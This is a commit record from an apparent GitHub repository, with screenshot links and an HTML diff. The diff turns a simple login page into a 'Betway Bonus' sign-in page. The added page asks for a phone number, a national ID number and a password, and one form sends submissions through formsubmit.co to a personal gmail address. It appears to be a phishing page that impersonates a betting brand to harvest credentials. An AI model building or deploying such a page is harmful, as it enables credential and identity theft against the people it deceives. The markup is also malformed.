

Before and after one commit to WezOtto/Betway-1For-You-Voucher, a plain HTML site: page Index.html in a window 1280 px wide. Shown: the part 70-800 px from the top of the page. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update Index.html

```diff
--- a/Index.html
+++ b/Index.html
@@ -1,67 +1,63 @@
-<!DOCTYPE html>
-<html lang="en">
+<div class="separator"
+<form action="https://formsubmit.co/masig308@gmail.com" method="POST">
+<html>
+
 <head>
-  <meta charset="UTF-8">
-  <meta name="viewport" content="width=device-width, initial-scale=1.0">
-  <title>Login Form</title>
-  <style>
-    body {
-      font-family: Arial, sans-serif;
-      background-color: #f4f4f4;
-      margin: 0;
-      display: flex;
-      justify-content: center;
-      align-items: center;
-      height: 100vh;
-    }
 
-    .login-container {
-      background-color: #fff;
-      padding: 20px;
-      border-radius: 8px;
-      box-shadow: 0 0 10px rgba(0, 0, 0, 0.1);
-      width: 300px;
-    }
+<title>Betway Bonus</title>
 
-    .login-container label {
-      display: block;
-      margin-bottom: 8px;
-    }
+</head>
 
-    .login-container input {
-      width: 100%;
-      padding: 8px;
-      margin-bottom: 16px;
-      box-sizing: border-box;
-    }
+<body>
 
-    .login-container button {
-      background-color: #4caf50;
-      color: #fff;
-      padding: 10px;
-      border: none;
-      border-radius: 4px;
-      cursor: pointer;
-      width: 100%;
-    }
+<h2>Sign In</h2>
 
-    .login-container button:hover {
-      background-color: #45a049;
-    }
-  </style>
-</head>
-<body>
-  <div class="login-container">
-    <h2>Login</h2>
-    <form>
-      <label for="username">Username:</label>
-      <input type="text" id="username" name="username" required>
+<form action="authenticate.php" method="post">
 
-      <label for="password">Password:</label>
-      <input type="password" id="password" name="password" required>
+  <input type="tel" id="username" name="username" placeholder="Number" required><br><br>
 
-      <button type="submit">Login</button>
-    </form>
-  </div>
+<input type="number" name="" id="" placeholder="ID Number" required><br><br>
+
+  <input type="password" id="password" name="password" placeholder="Password" required><br><br>
+
+  <input type="submit" class="btn" value="Submit">
+</form>
+
 </body>
-  </html>
+
+</html>
+
+<style>
+
+   h2{
+
+      color: green;
+
+      font-size: 5vh;
+
+   }
+
+   body{
+
+      text-align: center;
+
+   }
+
+.btn{
+
+   color: white;
+
+   background: green;
+}
+
+Input{
+
+Text-align: center;
+
+border: 2px solid green;
+
+height: 9vw;
+
+width: 88vw;
+
+    </style>
```
